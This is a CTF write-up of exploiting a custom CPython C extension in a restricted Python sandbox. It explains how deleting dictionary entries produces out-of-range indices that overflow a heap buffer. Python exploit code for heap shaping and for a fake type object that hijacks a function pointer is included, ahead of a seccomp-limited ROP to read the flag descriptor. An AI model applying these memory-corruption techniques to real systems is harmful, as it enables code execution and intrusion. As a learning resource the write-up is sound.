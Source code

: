 
**Disclaimer** 

I worked on this challenge alongside Yochai Eisenrich. 
We haven't finished the challenge on time, just a few hours after the CTF was over. After the write-ups started flowing we noticed that we solved it with an unintended bug, so we decided to write about it because it's kinda cool.


**Overview**

The challenge consists of several files. The authors provided a Python3.6 file, an .so called Collection.cpython-36m-x86_64-linux-gnu.so, a server-side program called server.py which we communicate with and a test.py file which consists of an example of how to use the Collection module.

The server.py expects from the user a python code, to concatenate it with a script prefix:
	
	from sys import modules
	del modules['os']
	import Collection
	keys = list(__builtins__.__dict__.keys())
	for k in keys:
            if k != 'id' and k != 'hex' and k != 'print' and k != 'range':
                del __builtins__.__dict__[k]
	

By reading the prefix above, we know that we can only work with the 'id','hex','print','range' python's builtins and the custome Collection module which written in C using the CPython API- this is the .so file we mentioned before.

The server.py code also creates a file descriptor(AKA-fd) of the flag file, duplicates it to another fd with the number 1023, and closes the original fd.

Our goal is to open the 1023 fd in order to read the flag.

Solves: 30
Points: 150

**Down To work**

The first called functions in the CPython module is the PyInit_Collection, which is equivalent to the "main" function of any .so or .dll, that being called once the library is loaded.

For each created instance of this class several methods are called:
	sub_1700 - we gave it the name: handle_object_creation. 

This function verifies that the input is a dictionary not larger than 32 members, parses the tuples and creates the structers by calling their init functions:
	Nodes- a double linked list, with a pointer to a record struct.
	Record- the record of the member- the key, the value and the type (long, list,or dict)

The Collection is a python object. The program allocates 0x118h bytes for it- the first 0x18h bytes are for the header, which consits of the reference count and a pointer to a PyTypeObject, which contains function pointers to the functions of the object.
The other 0x100 bytes are for the values of the input dict:
ints- stored as is
lists, dicts- a pointer to the data that stored.

The only function that can be called on an instance of Collection is 'get'. 
When called, behind the scenes several functions are called- the PyTypeObject is dereferenced and GenericSetAttr is called first.

Basically, that’s what we need to know before we understand the vulnerablitty.


**The Vulnerablitty**

After digging into nearly every function in the library, we checked again the handle_object_creation function and noticed something we haven't noticed before.

As was described earlier, this function parses the input dictionary, but we didn't mention that it works with the _PyDict_Next method of the Dictionary Object.

    Iterate over all key-value pairs in the dictionary p. The Py_ssize_t referred to by ppos must be initialized to 0 prior
    to the first call to this function to start the iteration; the function returns true for each pair in the dictionary, 
    and false once all pairs have been reported. The parameters pkey and pvalue should either point to PyObject* variables
    that will be filled in with each key and value, respectively, or may be NULL. Any references returned through them are
    borrowed. ppos should not be altered during iteration. Its value represents offsets within the internal dictionary
    structure, and since the structure is sparse, the offsets are not consecutive.

Based on its documentation we understood that each dictionary member has an internal indexing system in the dictionary structure. Later on, the Collection library uses it as an offset into an array and initializing for this Collection dictionary members.
We also know that we can't create a collection from a dictionary bigger than 32 members, which is exactly the size of the array buffer in memory.

    call PyDict_Next
    test eax, eax
    ...
    mov [r14+rax*8+10h], rdi
     
    
What if we can change the indexing of the members in the dictionary to overflow this buffer?


	x = {}
	for i in range(34):
	    if i == 32:
	        x["%d" % (i)] = 0x41414141 
	    elif i == 33:
	        x["%d" % (i)] = 0x12121212
	    else:
	        x["%d" % (i)] = 0xffffff00 + i 

	for i in range(2):
	    del x["%d" % (i)]



Using the del function in python we were able to create a dictionary with 32 members, but the index of the members was modified so we wrote outside the Array and overwritten the object that was next in memory!


**The Exploit**

We have a relative write primitive on the heap, but we need to get something interesting to be right after us. What is more interesting than a Collection Pyobject with a PyTypeObject pointer which is basically a vtable which later we can trigger it by calling the "get" function?

We started the heap shaping creating 5 collections, deleting the middle one and creating a hole which we need to  create the overflowing collection in it, to overflow the 3rd collection header, the PyTypeObject pointer to point to a "pyTypeObject" that we created, so when we will call 'get' on that collection, it will search the pointer to it in the PyTypeObject- methods attribute.

Very soon we discovered that the garbage collector is deleting our collections.

Each PythonObject has an attribute called ob_refcnt, which states the refernce count to the object.
so, we needed to hold a list with pointers to the collections to prevent from the garbage collector to delete our collections.

	avoid_gc = []
	holes= []
	consec_counter = 0
	hole_idx = 0
	length = 0
	for i in range(5):
             temp = Collection.Collection({"1":4, "2":i})
             avoid_gc.append(temp)
             length += 1
			
              if length > 1:
                   if id(temp) - 0x118 == id(avoid_gc[-2]):   
		   #This means that we created a consecutive allocation on the heap
                       consec_counter += 1
		    
                   else:
		       consec_counter = 0
                   if consec_counter == 2 and hole_idx == 0: 
                       hole_idx = i
                       hole_holder = temp
                       consec_counter = 0

	del avoid_gc[hole_idx-1]

Now we need to create our own PyTypeObject to point to, which will be used when we will call 'get' on the overwritten object.

The function which will be called first is the PyObject_GenericSetAttr, it is in offset 0x13h in the PyTypeObject.tp_getattro slot. 

If we will overwrite that pointer we will get a jump primitive to our own code!


	PyTypeObject = {}
	for i in range(0,32):
             if i == 0x13: 
	     # PyObject_GenericSetAttr spot
                 PyTypeObject["%d" % i] = 0x41414141
                 continue
    
            PyTypeObject["%d" % i] = 0x30303030 + i #RBP
   

	PyTypeObject = Collection.Collection(PyTypeObject)

We will need to point the PyTypeObject pointer to the Collection we just created.
If you remember, our controlled data starts right after the header at offset 0x18



	x = {}
	for i in range(34):
	
            if i == 32:
                x["%d" % (i)] = 0x2
            elif i == 33:
                x["%d" % (i)] = id(PyTypeObject) + 0x18
            else:
                x["%d" % (i)] = 0xffffff00 + i

	for i in range(2):
            del x["%d" % (i)]


	a = Collection.Collection(x)



Now, all we have left is to write the rop in order to read the fd.

A seccomp defense mechanism is embedded in the code. 
The seccomp mechanism acts like a filter of which syscalls can be called from within the process context. 

After an extensive analysis we understood that we can call the Readv function and the Write function in order to read the flag. 


See the code for further information😊




